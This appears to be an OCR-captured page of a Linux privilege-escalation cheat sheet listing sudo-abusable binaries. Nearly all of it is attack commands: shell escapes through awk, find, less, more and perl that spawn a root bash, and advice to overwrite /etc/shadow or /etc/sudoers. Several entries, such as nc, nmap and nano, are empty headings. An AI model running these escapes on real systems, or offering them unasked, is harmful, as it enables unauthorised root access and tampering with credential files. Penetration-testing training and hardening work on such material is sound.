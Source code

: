 
`awk`

```
awk 'BEGIN {system("/bin/bash")}'
```

`bash`

`cp`  
Copy and overwrite /etc/shadow
   
`find`

```bash
sudo find / -exec bash -i \;

find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;
```
   
`ht`  

The text/binary-editor HT.

`less`

From less you can go into vi, and then into a shell.

```
sudo less /etc/shadow
v
:shell
```

`more`  

You need to run more on a file that is bigger than your screen.

```
sudo more /home/pelle/myfile
!/bin/bash
```

`mv`

Overwrite `/etc/shadow` or `/etc/sudoers`

`man`

`nano`

`nc`

`nmap`


`python/perl/ruby/lua/etc`

```
sudo perl
exec "/bin/bash";
ctr-d
```
